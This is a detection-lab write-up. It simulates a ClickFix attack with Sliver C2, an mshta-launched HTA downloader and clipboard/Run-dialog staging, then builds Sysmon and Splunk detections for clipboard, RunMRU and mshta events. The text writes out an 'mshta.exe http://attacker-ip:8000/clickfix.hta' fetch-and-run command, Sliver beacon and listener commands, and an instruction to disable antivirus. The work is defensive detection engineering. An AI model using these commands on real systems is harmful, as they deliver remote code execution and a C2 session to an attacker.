## ClickFix Detection Lab – From Execution to Logs
### Overview  
This lab simulates a ClickFix attack chain where clipboard content is staged to trick the user into executing a malicious command through the Windows Run dialog.

The objective was to design a behavior-based detection capable of identifying:  
- Clipboard manipulation
- Run dialog usage (RunMRU modification)
- Suspicious process execution
- Multi-stage attack correlation

All detections were built using Sysmon and validated in Splunk.  
  
  
### Lab Architecture
**Victim VM**
- Windows 10 VM
- Sysmon configured with ClipboardChange (Event ID 24)
- Atomic Red Team
- AutoHotkey for realistic interaction simulation

**Attacker**
- Kali Linux
- Sliver for C2 Server

**SIEM**
- Splunk for ingesting logs and detection

  
### ClickFix Attack Chain (Expected Behavior).
1. Malicious command is copied to the clipboard.
2. Opens Run dialog (`Win + R`).
3. Clipboard content is automatically pasted into the Run dialog.
4. `mshta.exe executes the malicious payload.
5. Attacker gains control over the victim machine.

  
### Setup
#### :one: **Atomic Red Team**  
  
This tool will be used to simulate controlled MITRE ATT&CK techniques. It offers pre-built tests to validate detection effectiveness.  

**Atomic Red Team Installation**
1. Open PowerShell as Administrator (Right-click PowerShell :arrow_right: *Run as Administrator*).  
2. Install the required modules using the command below:
   ```
   Install-Module -Name invoke-atomicredteam,powershell-yaml -Scope CurrentUser
   ```
   Install all the modules from **PSGallery**
     
   
     
3. Download the Invoke-AtomicRedTeam library
   ```
   IEX(IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
   ```
     
   
     
4. Install Atomic Red Team  
     
   ```
   Install-AtomicRedTeam -getAtomics -Force
   ```
     
   **💡 If you get an execution policy error:**
     
   > PowerShell might block the script. You can temporarily change the execution policy like this:
     
   ```
   Set-ExecutionPolicy RemoteSigned
   ```
     
   Then run the install command again.
     
   

#### Useful Atomic Red Team Commands for Testing  
Here are a few helpful commands when working with Atomic Red Team:
- **ShowDetailsBrief**: Lists the available tests briefly. 
- **ShowDetails**: Displays full test details, including attack commands, required input parameters, and prerequisites.
- **GetPrereqs**: Automatically installs all required prerequisites before running a test.

In the screenshot below, you can see the output of **ShowDetailsBrief**, along with the execution of a simulated ClickFix campaign based on MITRE ATT&CK technique **T1204.002 (User Execution: Malicious File)**.  
  
  
  
You can also test using **TestNumbers** like this:  
  
  
  
And here’s what the detailed test info looks like when using **ShowDetails**.  
  
  

#### :two: **Sliver**  
  
Sliver is the core tool in this simulation, I couldn't make the attack realistically without it.  
  
:exclamation: **Warning:** Use Sliver only in a controlled, isolated environment, as it is a potentially dangerous tool.  

**Sliver C2 Server Setup**  
1. Run the following command to start the Sliver server: `sliver-server`.
     
   
     
2. Since the payload will be delivered via an HTA file, generate an HTTP beacon to receive the connection from the victim machine:
     
   ```
   generate beacon --http http://<attacker_ip>:<beacon_port> --os windows
   ```
     
   This command generates a Windows payload.
     
   
     
   After generation, rename the output file to `beacon.exe` (or any preferred name), ensuring it has the `.exe` extension so it can be executed on the target system.  
  
3. Start the HTTP listener to accept incoming beacon connections.

   ```
   http --lhost 192.168.199.129 --lport 8081
   ```

   

#### :three: **Custom HTA Script**  

  
This HTA file simulates a ClickFix-style execution chain. It demonstrates how `mshta.exe` can be abused to download and execute a payload using built-in Windows components.
  
**How It Works**:
1. The file will be executed via mshta.exe, allowing VBScript to run outside browser restrictions.
2. Using WScript.Shell to run commands and FileSystemObject to write files to disk.
3. Define the path for **beacon.exe** in the temporary folder (specified by **GetSpecialFolder(2)**).
4. `powershell -w hidden -nop -c` spawns powershell in hidden mode.
5. Download the payload using Net.WebClient.
6. `Start-Process` will execute the file from temporary folder.
  
**Execution Chain**:  
`mshta.exe ➡️ powershell.exe ➡️ beacon.exe`  
  
Now, we have two files ready to launch.  
  
  

#### :four: **AutoHotkey - Clipboard Simulation**  
AutoHotkey was used to simulate automated clipboard injection as part of the ClickFix execution chain.  
1. Download AutoHotkey from the official website:  
   `https://www.autohotkey.com/`.  
2. Launch **AutoHotkey Dash**, select **New Script**, and give a file name.  
     
     
     
     
     
3. Create and configure the script to simulate clipboard manipulation behavior required for the lab scenario.
     
     
  
4. Compile `.ahk` file into an executable (`.exe`) to enable execution within the controlled lab environment.
  
   
     
#### :five: **Custom Atomic Red Team Script**  
To accurately replicate the HTA-based ClickFix execution flow, I created a custom Atomic Red Team test under **T1204.002 (User Execution - Malicious File)**.  
  
Rather than building a separate script outside the framework, I modified the existing `T1204.002.yaml` file within the `atomics` and added a custom test to execute the HTA payload.  
  
  

**What this script does?**  
This Atomic Red Team test simulates a ClickFix-style attack chain in 4 main steps:  
1. **Create a malicious command**  
   `mshta.exe http://attacker-ip:8000/clickfix.hta`
   This command downloads the payload and executes it on the target system.  
3. **Copy the command to the clipboard**  
   `$cmd | clip`  
   This simulate the user copying a malicious command and is expected to generate a clipboard change event.  
4. **Modify RunMRU (simulate Win + R)**  
   `Set-ItemProperty -Path RunMRU -Name "MRU" -Value $cmd`  
   This simulates execution through the Windows Run dialog and generates a registry modification event.  
5. **Execute the attack**  
   `Start-Process clickfix-clipboard.exe`
   This launches the AutoHotkey automation, which opens the Run dialog, pastes the clipboard content, and executes the command.
    
The Cleanup section will clean everything after the test.  
> **Note:** Cleanup does not run automatically. It must be executed manually using the `Invoke-AtomiicTest` flag.
`Invoke-AtomicTest T1204.002 -Cleanup`  
  
#### :six: **Sysmon Configuration**  
Before running the simulation, the Sysmon configuration was updated to ensure all relevant events were captured. Proper logging is necessary to gain full visibility into each stage of the attack chain..  

**Clipboard Monitoring (Event ID 24)**  
Clipboard monitoring was enabled to detect when a process modifies clipboard content.  
This is important because ClickFix-style attacks rely on copying malicious commands before execution.  
  
  

**RunMRU Registry Monitoring (Event ID 13)**  
The RunMRU registry path was added under the **RegistryEvent** rule to detect commands executed via the Windows Run dialog.  
It’s better to use the full RunMRU registry path instead of just matching the word "RunMRU", as this helps reduce noise.  
However, in this lab environment, I used a simple `RunMRU` string match since the configuration was designed specifically for simulation.  
  
  
  
  
### **Testing Phase**  
Before executing the simulation, the HTTP server must be running so the victim machine can retrieve the HTA payload. For this lab, I used a simple Python HTTP server on port **8000** to host the malicious file.  

  

Next, I verified that the custom Atomic test was properly loaded using the `ShowDetailsBrief` option in `Invoke-AtomicTest`. The newly created test was assigned test number 14 under T1204.002.  

  

To execute the simulation:  
```
Invoke-AtomicTest T1204.002 -TestNumbers 14
```
> ℹ️ Note: Antivirus protection must be temporarily disabled in the lab environment, as it may block the HTA execution or Sliver payload.  

  

If the following warning appears, it indicates that antivirus protection is still active and preventing execution. Disable it and rerun the test.  

  

Once executed successfully, the HTML Application (HTA) is launched on the victim machine, simulating the ClickFix execution flow.  

  

At the same time, the HTTP server logs an incoming request from the victim host, confirming that the payload was successfully retrieved.  

  

Finally, the Sliver C2 server receives a connection from the victim system, establishing a session.  
  
To validate access, I simply executed `whoami` command, which confirmed the user and hostname.  

  
  
  
### **Detection**  
This simulation focuses on three key behaviors:  
- Clipboard activity
- RunMRU registry modification
- `mshta.exe` execution
  
#### :one: **Clipboard Change (Sysmon Event ID 24)**  
In this lab, I searched for `powershell.exe` because the clipboard activity was generated through AutoHotkey automation, which caused PowerShell to write to the clipboard.  
If the user performed the copy-paste manually, the event would likely show `explorer.exe` instead.  
The `Archived` field indicates that Windows stored the clipboard content.  
    
  

#### :two: **RunMRU Monitoring (Sysmon Event ID 13)**  
To detect activity through the Windows Run dialog, I monitored the RunMRU registry path.  

When a command is executed via Win + R, it is recorded under:  
`HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`  
  
By filtering for this registry path as the `TargetObject`, we can see the malicious command being written before execution.  
  
  

#### :three: **mshta.exe Execution (Sysmon Event ID 1)**  
The malicious command ultimately launches `mshta.exe` to execute the remote HTA payload.  
Since it was triggered through the Run dialog, the parent process appears as `explorer.exe`. Monitoring for:  
- Image = mshta.exe
- ParentImage = explorer.exe
helps identify suspicious execution.  

  

After execution, the payload downloads additional files. These are commonly stored in the **Temp folder** as attackers prefer locations that are easy to clean up and less likely to draw attention.  

  

#### :four: **Track the Full Attack Flow**  
Finally, I combined all three detections into a single correlated search to reconstruct the full attack chain. By correlating the attack chain events, we can detect the entire ClickFix-style execution flow rather than relying on a single indicator.  
  
  

